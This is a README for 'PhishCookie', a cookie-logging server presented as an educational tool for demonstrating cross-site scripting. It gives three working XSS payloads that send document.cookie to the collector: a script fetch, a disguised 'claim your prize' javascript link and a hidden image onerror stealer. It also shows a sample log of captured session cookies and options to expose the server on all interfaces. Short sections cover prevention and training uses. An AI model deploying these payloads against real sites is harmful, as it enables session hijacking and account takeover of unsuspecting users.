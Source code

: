# PhishCookie



PhishCookie is an educational tool designed to demonstrate how cross-site scripting (XSS) vulnerabilities can be exploited. It creates a simple HTTP server that can be used in controlled environments to showcase cookie theft and other XSS attack vectors.



## ⚠️ IMPORTANT DISCLAIMER

**This tool is created STRICTLY for:**
- Educational purposes
- Authorized security testing
- Controlled lab environments
- Cybersecurity training

**NEVER use this tool against any website or user without explicit permission. Unauthorized use is illegal and unethical.**

## 🔍 Overview

PhishCookie simulates how malicious actors exploit XSS vulnerabilities to steal cookies and other sensitive information. By understanding these techniques, developers and security professionals can better protect their applications.

![How XSS Works](https://github.com/Sergeb250/PhishCookie/blob/551c33af67d04ff6a86424b97ea3d17f125f7436/images/Screenshot%20(26).png)

## ✨ Features

- **Cookie Logger**: Captures and displays cookies sent via XSS payloads
- **Request Inspector**: Analyzes all incoming request data
- **Payload Generator**: Creates ready-to-use XSS payloads for testing
- **Simple Web Interface**: View logged data through an intuitive dashboard
- **Educational Resources**: Includes documentation on XSS prevention

## 📋 Installation

```bash
# Clone the repository
git clone https://github.com/yourusername/PhishCookie.git

# Navigate to the directory
cd PhishCookie

# No additional dependencies required!
```

## 🚀 Quick Start

1. Start the PhishCookie server:

```bash
python phish_cookie.py
```

2. By default, the server runs on port 8080:

```
[*] PhishCookie server started on port 8080
[*] Waiting for incoming XSS payloads...
```

![Server Running](https://github.com/Sergeb250/PhishCookie/blob/6d2b8829c8efc1cec1de48dbec7904b333e45a21/images/Screenshot%20(27).png)

## 💉 XSS Payload Examples

### Basic Cookie Stealer

```html
<script>
  fetch('http://localhost:8080/steal?cookie=' + encodeURIComponent(document.cookie))
    .then(response => console.log('Cookie sent'))
    .catch(error => console.error('Error:', error));
</script>
```

### Clickjacking Attack

```html
<a href="javascript:void(document.location='http://localhost:8080/steal?cookie='+document.cookie)">
  Click here to claim your prize! 🎁
</a>
```

### Image-Based Stealer (No JS Console Visibility)

```html
<img src="x" onerror="this.src='http://localhost:8080/steal?cookie='+document.cookie" style="display:none">
```

![XSS Attack Flow](https://placeholder-for-attack-flow.png)

## 📊 Understanding the Output

When a victim triggers an XSS payload, PhishCookie logs detailed information:

```
[+] XSS Payload Triggered! [2025-04-23 14:32:12]
[+] Source IP: 192.168.1.105
[+] User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36
[+] Cookies Captured: 
    - sessionid=a68d42f0e8b11d3e7955
    - user_pref=dark_mode=true
    - _ga=GA1.2.1234567890.1234567890
[+] Referrer: https://vulnerable-site.example/login
```

## 🛡️ Prevention Techniques

PhishCookie helps demonstrate why these security measures are essential:

1. **Content Security Policy (CSP)**
2. **HttpOnly and Secure Cookie Flags**
3. **Input Validation & Output Encoding**
4. **X-XSS-Protection Headers**
5. **Modern Framework Protections**

## 🧪 Testing Scenarios

- **Self-XSS Demonstration**: Test on your own pages to understand impact
- **CTF Practice**: Use in cybersecurity competitions
- **Security Awareness**: Train team members on XSS risks
- **Penetration Testing**: During authorized security assessments

![Testing Scenario](https://placeholder-for-testing.png)

## 🔧 Advanced Configuration

PhishCookie supports several command-line arguments:

```bash
python phish_cookie.py --port 9090 --interface 0.0.0.0 --log-file cookies.log
```

| Option | Description |
|--------|-------------|
| `--port` | Server listening port (default: 8080) |
| `--interface` | Binding interface (default: localhost) |
| `--log-file` | Save captured data to file |
| `--web-interface` | Enable web dashboard (default: disabled) |

## 📚 Educational Resources

- [OWASP XSS Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
- [PortSwigger XSS Learning Materials](https://portswigger.net/web-security/cross-site-scripting)
- [Mozilla Developer Network - Web Security](https://developer.mozilla.org/en-US/docs/Web/Security)

## 🤝 Contributing

Contributions that improve the educational value of this tool are welcome:

1. Fork the repository
2. Create your feature branch (`git checkout -b feature/educational-improvement`)
3. Commit your changes (`git commit -m 'Add new educational content'`)
4. Push to the branch (`git push origin feature/educational-improvement`)
5. Open a Pull Request

## 📜 License

Distributed under the MIT License. See `LICENSE` for more information.

## 📞 Contact
Project Link: [https://github.com/Sergeb250/PhishCookie](https://github.com/Sergeb250/PhishCookie)

